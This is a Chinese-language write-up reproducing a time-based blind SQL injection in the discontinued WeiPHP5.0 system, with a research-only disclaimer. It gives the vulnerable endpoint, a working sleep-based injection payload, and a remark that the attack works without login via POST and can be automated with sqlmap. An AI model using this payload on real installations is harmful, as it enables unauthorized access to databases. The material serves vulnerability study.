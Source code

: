 # WeiPHP5.0 SQL注入漏洞1

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞描述

`WeiPHP5.0`是在2019年停止更新的一个系统，漏洞挺多的，跟着复现分析一下，这里复现一下 `WeiPHP5.0`的一处`SQL`注入漏洞

## 漏洞影响

`WeiPHP5.0`最新版

可以据此下载

https://www.weiphp.cn/doc/download_source_installation.html

## 漏洞复现

需要一个普通用户权限登录（好像也可以不用），然后访问链接并抓包

```php
/index.php/material/Material/material_lists
title=aa%27or%20sleep(5)%23
```

不登录时需要使用 `post` ，如果使用 `get`会直接跳转，然后进行延时操作，注意右下角

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650814616996-67b8d17c-1b34-4b28-aec0-86d0e6b724fc.png)

用 `sqlmap`跑

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650894325627-aae86b37-51e3-4a20-b61b-a5587045462a.png)

## 总结

关于这个权限问题，实际上不用任何用户登录也是可以注入的，但必须使用 `post`的时候才可以。由于后面还有其他的数据库操作语句，这里只好使用盲注。

## 参考链接

- https://igml.top/2019/10/30/weiphp5-0/



`github` 链接：`https://github.com/N0puple/vulPOC`

想要获取更多资讯，或者获取文中环境可以关注公众号 “安全漏洞复现”，回复 “漏洞环境”

